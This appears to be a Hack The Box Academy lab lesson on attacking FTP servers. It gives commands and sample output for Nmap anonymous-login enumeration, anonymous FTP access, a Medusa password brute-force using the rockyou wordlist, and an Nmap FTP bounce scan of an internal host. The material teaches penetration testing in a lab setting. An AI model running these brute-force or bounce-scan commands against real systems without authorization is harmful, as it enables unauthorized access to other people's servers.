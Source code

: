 # Attacking FTP

---

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

To attack an FTP Server, we can abuse misconfiguration or excessive privileges, exploit known vulnerabilities or discover new vulnerabilities. Therefore, after gaining access to the FTP Service, we need to be aware of the content in the directory so we can search for sensitive or critical information, as we previously discussed. The protocol is designed to trigger downloads and uploads with commands. Thus, files can be transferred between servers and clients. A file management system is available to the user, known by the operating system. Files can be stored in folders, which may be located in other folders. This results in a hierarchical directory structure. Most companies use this service for software or website development processes.

---

## Enumeration

`Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins. The version enumeration flag `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name. We can use the `ftp` client or `nc` to interact with the FTP service. By default, FTP runs on TCP port 21.

#### Nmap

Attacking FTP

```shell-session
frank-106@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
```

---

## Misconfigurations

As we discussed, anonymous authentication can be configured for different services such as FTP. To access with anonymous login, we can use the `anonymous` username and no password. This will be dangerous for the company if read and write permissions have not been set up correctly for the FTP service. Because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

This would enable us to download this sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, we would be able to find out where this file is located and execute it as PHP code, for example.

#### Anonymous Authentication

Attacking FTP

```shell-session
frank-106@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

Once we get access to an FTP server with anonymous credentials, we can start searching for interesting information. We can use the commands `ls` and `cd` to move around directories like in Linux. To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

In the [Footprinting](https://academy.hackthebox.com/course/preview/footprinting) module, we cover detailed information about possible misconfigurations of such services. For example, many different settings can be applied to an FTP server, and some of them lead to different options that could cause possible attacks against that service. However, this module will focus on specific attacks rather than finding individual misconfigurations.

---

## Protocol Specifics Attacks

Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.

#### Brute Forcing

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

**Note:** Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.

#### Brute Forcing with Medusa

Attacking FTP

```shell-session
frank-106@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

#### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![text](imgs/ftp_bounce_attack.webp) Source: [https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

The `Nmap` -b flag can be used to perform an FTP bounce attack:

Attacking FTP

```shell-session
frank-106@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.

When you spawn your target, please wait up to 60 more seconds after seeing the IP address to ensure the corresponding service is launched correctly.